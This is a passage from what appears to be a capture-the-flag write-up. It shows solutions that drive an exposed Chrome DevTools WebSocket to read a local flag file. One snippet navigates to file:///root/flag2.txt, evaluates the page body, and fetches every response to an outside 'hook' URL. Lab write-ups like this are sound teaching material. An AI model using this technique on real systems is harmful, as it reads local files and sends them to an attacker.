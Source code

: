 ```js
            }));

            devtools.send(JSON.stringify({
                sessionId,
                id: 4,
                method: 'DOM.getOuterHTML',
                params: {"nodeId":1}
            }));

            // Wait for DOM.documentUpdated
            setTimeout(() => {
                devtools.send(JSON.stringify({
                    sessionId,
                    id: 5,
                    method: 'DOM.getDocument',
                }));
                devtools.send(JSON.stringify({
                    sessionId,
                    id: 6,
                    method: 'DOM.getOuterHTML',
                    params: {"nodeId":5}
                }))
            }, 1000);
        }

    };
```

They waited 1s for a DOM.documentUpdated and then retrieved the contents again with `DOM.getOuterHTML`!

### Page and Evaluate
This clean solution by `aelmo` uses `Page` and `Evaluate` (which I could not get working myself):
```js
function connectPage(port, targetId, hook) {
  const ws = new WebSocket(`ws://localhost:${port}/devtools/page/${targetId}`);

  ws.onopen = () => {
    ws.send(
      JSON.stringify({
        id: 1,
        method: "Page.navigate",
        params: { url: "file:///root/flag2.txt" },
      })
    );

    fetch(hook + "connected");
  };

  ws.onmessage = (event) => {
    fetch(hook + "msg", { method: "POST", body: event.data });
    let data = JSON.parse(event.data);

    switch (data.id) {
      case 1:
        ws.send(
          JSON.stringify({
            id: 2,
            method: "Runtime.evaluate",
            params: { expression: "document.body.innerHTML" },
          })
        );
        break;
```